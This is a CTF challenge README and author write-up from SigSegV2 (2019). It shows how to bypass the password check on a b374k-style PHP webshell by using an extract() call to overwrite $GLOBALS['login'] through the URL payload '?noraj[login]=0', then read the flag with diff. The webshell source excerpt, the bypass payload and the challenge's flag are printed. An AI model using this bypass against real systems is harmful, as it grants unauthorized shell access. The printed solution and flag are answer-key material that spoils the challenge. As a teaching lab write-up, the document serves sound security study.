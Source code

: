 # b374k.php webshell / c99 style PHP backdoor

## Version

Date        | Author                  | Contact               | Version | Comment
---         | ---                     | ---                   | ---     | ---
24/11/2019  | noraj (Alexandre ZANNI) | noraj#0833 on discord | 1.0     | Document creation

Information displayed for CTF players:

+ **Name of the challenge** / **Nom du challenge**: `Une porte peut en cacher une autre`
+ **Category** / **Catégorie**: `Web`
+ **Internet**: not needed
+ **Difficulty** / **Difficulté**: Medium / Moyen

### Description

```
A very famous backdoor was placed on the website, but hopefully it is password protected.

Flag format: sigsegv{flag}

author: [noraj](https://pwn.by/noraj/)
```

### Hints

- Hint1: b374k.php
- Hint2: vim

## Integration

This challenge require a Docker Engine and Docker Compose.

Builds, (re)creates, starts, and attaches to containers for a service:

```
$ docker-compose up --build
```

Add `-d` if you want to detach the container.

## Solving

### Author solution

The webshell is `b374k.php`.
The comment on the home page says the hacker used vim.
Let's look for a `.swp` vim backup file: `b374k.php.swp`.

Let's look at the code:

```php
$GLOBALS['pass'] = "09c7018841af655c9b025c0a3e5b167d05f42cd1"; // sha1(md5(pass))
...
$GLOBALS['login'] = 1;

@extract($_REQUEST["noraj"], EXTR_OVERWRITE);
...
if(!function_exists('auth')){
	function auth(){
		if(isset($GLOBALS['pass']) && (trim($GLOBALS['pass'])!='')){
			$c = $_COOKIE;
			$p = $_POST;
			if($GLOBALS['login'] == 0 || isset($p['pass'])){
				$your_pass = sha1(md5($p['pass']));
				if($GLOBALS['login'] == 0 || $your_pass==$GLOBALS['pass']){
					setcookie("pass", $GLOBALS['pass'], time()+36000, "/");
					header("Location: b374k.php");
				}
			}
```

It's no use to try to guess the password, it is `sha1(md5(pass))` of a strong one.

But we can see there is `$GLOBALS['login'] = 1;`, like *login enabled* and then
there are `$GLOBALS['login'] == 0 || isset($p['pass'])` and
`$GLOBALS['login'] == 0 || $your_pass==$GLOBALS['pass']`. So if
`$GLOBALS['login'] == 0` the login feature will be disable and we will gain
access to the shell without using a password.

`extract` allows to _Import variables into the current symbol table from_ and to
overwrite it. So let's use it to overwrite `$GLOBALS['login']` and bypass the
authentication.

The payload is `http://x.x.x.x/b374k.php?noraj[login]=0` or just
`http://x.x.x.x/b374k.php?noraj[login]`.

So we have a webshell but most of useful binaries for listing directories or
reading a file were removed.

We have two options, do it in pure PHP or find a non-removed binary.

For example reading the flag with `diff`:

```
/usr/src/app/>diff /home/noraj/flag.txt /etc/hostname
--- /home/noraj/flag.txt
+++ /etc/hostname
@@ -1 +1 @@
-sigsegv{∙∙∙∙∙·▫▫ᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒnorajᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒ▫▫·∙∙∙∙∙}
\ No newline at end of file
+da3acf79d34a
```

More about backdored backdoors: https://rawsec.ml/en/c99-php-backdoor-backdoored/

## Flag

`sigsegv{∙∙∙∙∙·▫▫ᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒnorajᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒ▫▫·∙∙∙∙∙}`

## SigSegV2

A web challenge that was available during SigSegV2 CTF (2019).

10 teams on 36 flaged this challenge.
